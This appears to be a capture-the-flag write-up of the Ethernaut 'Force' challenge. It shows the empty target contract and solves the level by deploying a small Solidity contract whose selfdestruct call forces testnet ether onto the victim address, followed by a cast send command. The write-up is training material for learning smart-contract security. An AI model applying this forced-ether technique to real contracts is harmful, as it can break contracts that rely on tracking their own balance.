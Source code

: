 ```yaml
---
title: "Force"
tags: ["selfdestruct"]
reference: https://ethernaut.openzeppelin.com/level/0xb6c2Ec883DaAac76D8922519E63f875c2ec65575
---
```


# Description

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.
- See the "?" page above, section "Beyond the console"

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

# Solution

1. deploy `ForceSendETH` contract

This function will recieve ether from msg.sender and them self destory itself and send all its ether balance to our victim address.

```
contract ForceSendETH {
    function pwn(address victim) external payable {
        selfdestruct(payable(victim));
    }
}
```

2. call `pwn()`

```
cast send 0x3563481bAaFF769260aD2df7195B46F1c450d694 "pwn(address)" 0xbE7B8679255c0531c346fcEa6EEF6C4a2222D8a1 --value 0.00000001ether --rpc-url $BASE_SEPOLIA_RPC --private-key
```

